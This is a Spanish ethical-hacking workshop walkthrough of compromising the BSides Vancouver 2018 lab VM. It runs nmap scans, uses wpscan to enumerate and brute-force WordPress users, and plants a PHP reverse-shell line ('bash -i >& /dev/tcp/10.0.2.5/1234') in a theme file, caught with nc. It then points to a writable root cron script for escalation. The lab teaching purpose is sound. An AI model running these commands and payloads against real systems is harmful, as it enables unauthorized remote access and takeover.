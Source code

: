 
![](http://cms-site.inacap.cl/Assets/portal/img/logo-negro.png)

# Taller de Hacking Ético - Los Ángeles - Julio 2018. 

El fin de este taller práctico consiste en dar a conocer ciertas técnicas que permiten vulnerar la seguridad de serviodes/servicios. Con ello poder dotar del conocimiento necesario para que los asistentes, puedan asegurar su propia infraestructura. Este taller es desarrollado solo con fines educacionales.

Particularmente se trabajará con los siguientes recursos:

1. Un equipo capaz de correr dos máquinas virtuales.
1. 20 GB de espacio libre en Disco.
1. VirtualBox Pre-Instalado.
1. [Kali Linux](https://www.kali.org/downloads/) para su arquitectura.
1. Maquina virtual Vulnerable [Descarga](https://www.dropbox.com/s/j3r9l7kaydwsdm9/BSides-Vancouver-2018-Workshop.ova)
1. Las máquinas virtuales deben estar en una red común para poder conectarse.

El objetivo principal consiste en ganar permisos de super usuario (ROOT) sobre la máquina victima.

Dentro de un proceso de análisis de vulnerabilidades, es necesario seguir una metodología que permita hacer que el proceso sea repetible. Por ello, el ataque se separa en las siguientes fases Recolección/Enumeración, Análisis, Explotación y Documentación.

## Fase de Recolección de Información y Enumeración

Dentro de esta fase, es necesario tener en cuenta los datos de la máquina atacante como de la victima. Lograr la mayor cantidad de información del objetivo mediante la obtención de datos desde fuentes abiertas como desde escaneos pasivos y activos.
En este caso particular, trabajamos con una máquina virtual, por lo que pasaremos directamente al escaneo activo.
Desde el punto de vista del atacante es necesario conocer la IP del segmento de red al que está conectado. Una vez obtenida esa IP podemos revisar otras IPs correspondientes a máquinas vulnerables.
El comando en Linux para revisar la IP es: `ifconfig` este comando debe ser ejecutado en una consola de comandos, tal como se muestra a continuación.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/1-ifconfig.gif)

Una vez que ya tenemos nuestra propia IP, debemos revisar nuestro entorno de red mediante la famosa herramienta nmap.
Usamos el comando en consola de la siguiente manera:

`# nmap 10.0.2.0/24 -T4 -sS`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/2-nmapRed.gif)

Recordar que los parámetros `-T4` hacen un escaneo rápido y `-sS` permite identificación de servicios asociados a los puertos.
Como podemos ver en la salida del comando, se encontró la IP `10.0.2.8` con 3 puertos abiertos: `21, 22 y 80`.
Como primer paso abrimos un navegador en Kali Linux y verificamos el sitio existe en la IP victima (puerto 80).

Lo único que encontramos, es la típica página indicando que existe un servidor web y se encuntra funcionando.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/3-webhttp.gif)

Luego, entramos a verificar si existen archivos interesante en el servidor http. Esto se hace mediante el conjunto de herramientas o scripts del mismo nmap.
usaremos el comando siguiente: `# nmap -script http-enum 10.0.2.8`

Este comando nos permite enumerar mediante fuerza bruta, los archivos presentes en el sitio web.

Si miramos con atención la salida del comando, nos damos cuenta que hay un archivo denominado `robots.txt`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/4-http-enum.gif)
 
Una vez más, abrimos el navegador e introducimos la siguiente URL`10.0.2.8/robots.txt`.
Es importante recordar que el archivo robots.txt se deja en los servidores web, como manera de indicarle a los motores de búsqueda que NO indexen el contenido presente en dicho documento.

Finalmente comprobamos la existencia de un Wordpress hosteado en la máquina victima.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/5-robotsTxt.png)

El sitio wordpress se encuentra en `10.0.2.8/backup_wordpress`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/6-WordPress.png)

## Fase de Análisis
Bueno, a esta altura ya conocemos nuestra IP `10.0.2.5` y la IP de la victima `10.0.2.8`, además sabemos que hostea un sitio en wordpress. También se nos indica que el wordpress está desactualizado.

Acá comenzamos a planear la estrategia y los diferentes escenarios de ataques. 
Como sabemos, wordpress es una herramienta que permite implementar blogs y sitios de manera simple. Adicionalmente permite ser extendido mediante el uso de diferentes plugins. Muchas veces esos plugins introducen brechas de seguridad al ser instalados o simplemente se usan contraseñas débiles para acceder a la administración del Wordpress `10.0.2.8/backup_wordpress/wp-admin`.

Dentro de la distribución Kali Linux existe una herramienta denominada WPSCAN que nos permitirá auditar el sitio wordpress.
Justamente esto utilizaremos en la etapa de explotación.

## Fase de Explotación

Mediante WPSCAN procedemos a auditar el sitio worpress usando los parámetros específicos para enumerar usuarios.

`# wpscan -u 10.0.2.8/backup_wordpress --enumerate u`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/7-enumeracionUsuarios.gif)

La herramienta nos entrega dos usuarios y sus respectivas contraseñas:

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/8-UsuariosWP.png)

Intentamos loguearnos en `10.0.2.8/backup_wordpress/wp-admin` pero ninguno de los usuarios y sus respectivas contraseñas funcionan.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/9-LoginWordpress.png)

Pero como ya tenemos los usuarios, procedemos a implementar un ataque de fuerza bruta. 
Nos ayudamos de la misma herramienta WPSCAN para proceder con este ataque, sobre el usuario Admin.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/10.1-bruteforceAdmin.gif)

Acá queda de manifiesto que no existe una constraseña que nos permita ingresar con la cuenta `admin`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/10.2-bruteforceAdmin.png)

Ahora procedemos a probar con el otro usuario `john`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/11-password.png)

Acá si tenemos éxito, logrando la clave `enigma` para el usuario `john`

Procedemos a loguear en la administración del sitio wordpress con el usuario y clave ingresado.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/12-accesoWP.png)

Entramos al editor del tema de wordpress. Acá podemos modificar los archivos PHP directamente en el navegador web.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/13-EditorWP.png)

Ponemos un regalito [Shell reversa para php](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) en el `comments.php` y guardarmos el archivo. La shell reversa que usaremos es un trozo de código PHP que se ejecutará en la máquina victima. Una vez que visitemos uno de los comentarios del Wordpress ese trozo de código intentará conectarse a la máquina atacante `10.0.2.5` en un puerto específico `1234`. Para ello debemos preparar un listener en la máquina atacante que recibirá y manejará la conexión remota.

La shell reversa en PHP es: `exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.5/1234 0>&1'");`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/14-ShellReversaPhp.png)

Finalmente recibimos la conexión remota en el Kali Linux mediante el siguiente comando:
`nc -lvp 1234`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/15-AccesoShell.gif)

Como ya contamos con acceso a la máquina victima, estamos un paso mas cerca de nuestro objetivo: Ser Root!
Para ello se deben utilizar técnicas de [escalación de privilegios](https://www.icann.org/news/blog/que-es-el-escalonamiento-de-privilegios). Para tratar de acortar un poco este material que ya es bastante extenso, diré que dentro de los sistemas operativos Linux, existen tareas recurrentes que se automatizan haciendo uso de Cron. Este proceso toma archivos y los ejecuta cada cierto periodo de tiempo. Resulta que en el caso de nuestra victima, existe un archivo que ha sido puesto para borrar logs. Estos logs son borrados recurrentemente. El gran problema reside en que ese archivo cuenta con permisos elevados, de hecho permisos de super usuario o root y puede ser modificado por cualquiera.

El archivo se encuentra en el directorio: `/usr/local/bin/cleanup`

Con la conexión reversa ya establecida, procedemos a utilizar el comando cat para visualizar el contenido del archivo

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/16-Cleanup.png)

## Fase de Documentación



@agustin_salas_f
[Universidad Tecnológica de Chile INACAP](http://www.inacap.cl).
